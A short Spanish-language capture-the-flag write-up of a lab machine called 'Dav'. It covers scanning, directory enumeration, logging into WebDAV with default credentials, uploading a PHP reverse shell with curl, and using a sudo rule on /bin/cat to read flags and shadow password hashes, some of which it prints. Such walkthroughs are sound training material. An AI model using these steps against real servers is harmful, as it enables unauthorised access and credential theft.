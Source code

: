 # Dav
Máquina sencillita y buena para empezar, el file upload es algo que se pasa por alto muchas veces al comprometer un apache

Interesantes: Curl File Upload
## Initial Scan
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
No hay muchos servicios entre los que elegir, vayamos a la web
### HTTP
#### Gobusting
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
```
#### Webdav
En el ultimo tenemos un basic authentication, por lo visto hay varios pares de creds por defecto
```
wampp:xampp
jigsaw:jigsaw
```
Probamos estas y con las primeras entramos, dentro del directorio encontramos un archivo llamado passwd.dav
```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```
Podriamos intentrar crackear el hash pero ya que tenemos un user:pass valido podemos intentar subir una reverse shell, en mi caso la de Pentest Monkey
```
 curl http://10.10.62.113/webdav/hell.php -u wampp:xampp --upload-file php-reverse-shell.php
```
Abrimos un listener con netcat en local y accedemos al archivo subido desde el navegador y tenemos shell como www-data, veamos si podemos escalar desde aqui.

## Privesc
```
User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
``` 
Nuestro usuario tiene total acceso a lectura de ficheros, con esto podemos leer las flag sin ningun problema

Estuve tanteando si teniamos alguna manera de conseguir escalar a root pero no encontre ninguna de las tipicas, lo unico que podriamos intentar escalar lateralmente hacia Merlin o Wamp si lograsemos crackear su hash
```
merlin:$1$EWeeql.h$8mH.7rEhPRGsOb5ECtmIe1:18134:0:99999:7:::
wampp:$6$f8LMirW0$43znQ5kMsELDO9BdUmhbGkUEnVH2OKXZjfEtsyUgbvL79KoJtgLkdbJpHw4OuDDIMtaXjGjkjaRKDv1FFxKsr/:18134:0:99999:7:::
```
Escalar lateralmente hacia Merlin seria una gran idea ya que podemos comprobar que pertenece al grupo de sudo
```
groups merlin
merlin : merlin adm cdrom sudo dip www-data plugdev lpadmin sambashare
```
Podría ser otra manera interesante de escalar privilegios en esta máquina si quisieramos conseguir acceso real en lugar de simplemente leer la flag, pero parece que la contraseña utiliza no esta en rockyou.txt
